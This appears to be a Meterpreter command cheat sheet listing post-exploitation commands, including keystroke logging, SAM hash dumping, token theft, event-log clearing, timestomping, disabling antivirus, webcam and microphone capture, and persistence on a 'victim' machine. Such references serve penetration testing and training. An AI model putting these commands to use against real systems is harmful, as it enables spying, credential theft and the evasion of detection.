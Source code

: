 Core Commands
----------------------

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information about active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    help                      Help menu
    info                      Displays information about a Post module
    interact                  Interacts with a channel
    irb                       Drop into irb scripting mode
    load                      Load one or more meterpreter extensions
    migrate                   Migrate the server to another process
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    use                       Deprecated alias for 'load'
    write                     Writes data to a channel


Stdapi: File system Commands
----------------------

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
----------------------

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    route         View and modify the routing table


Stdapi: System Commands
----------------------

    Command       Description
    -------       -----------
    clearev       Clear the event log
    drop_token    Relinquishes any active impersonation token.
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getprivs      Attempt to enable all privileges available to the current process
    getuid        Get the user that the server is running as
    kill          Terminate a process
    ps            List running processes
    reboot        Reboots the remote computer
    reg           Modify and interact with the remote registry
    rev2self      Calls RevertToSelf() on the remote machine
    shell         Drop into a system command shell
    shutdown      Shuts down the remote computer
    steal_token   Attempts to steal an impersonation token from the target process
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: User interface Commands
----------------------

    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components


Stdapi: Webcam Commands
----------------------

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Priv: Elevate Commands
----------------------

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
----------------------

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
----------------------

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes



Run Command Examples
-------------------
	Command       			Description
    -------       			-----------
    run vnc       			Start the VNC script included with meterpreter to get an interactive VNC session on the target.
    run keylogrecorder		Log all the keystrokes on the victim. For best results, make sure you are running in explorer.exe. To capture login 
    						password, run this whilst within winlogon.exe.
    run checkvm				See if the target machine is running in a virtual machine.
    run winenum				Retrieve info about the Windows machine such as enviornment variables, user accounts, groups, interfaces, routes, etc
    run scraper				Downloads detailed system information such as password hashes, network shares, registry hives
    run getcountermeasure	Checks the security settings on the victim and can disable certain countermeasures.
    run killav				Disable any AntiVirus processes running on the target system if possible.

Other Command Examples
--------------------------
    Command       			Description
    -------       			-----------
    steal_token 456			Need to load incognito into meterpreter using "use incognito" prior to using this. Steals tokens from the specified
    						process to try impersonate an account. Check your UID afterwards even if there is an error as it may have still worked.
  	route add 192.168.1.0 255.255.255.0 3	Route all traffic destined to 192.168.1.0/24 though session 3.
    load auto_add_route 	Automatically issue additional route commands for any previously unseen subnets whenever a new session is opened. 							So does the above command automatically basically for new discovered subnets.
    route print 			Print the current routing table (subnet, netmask, and associated session that the traffic will be routed through).
    run persistence -X *options*	Install a script onto the victim machine that will automatically return a meterpreter shell every time it 
    								starts.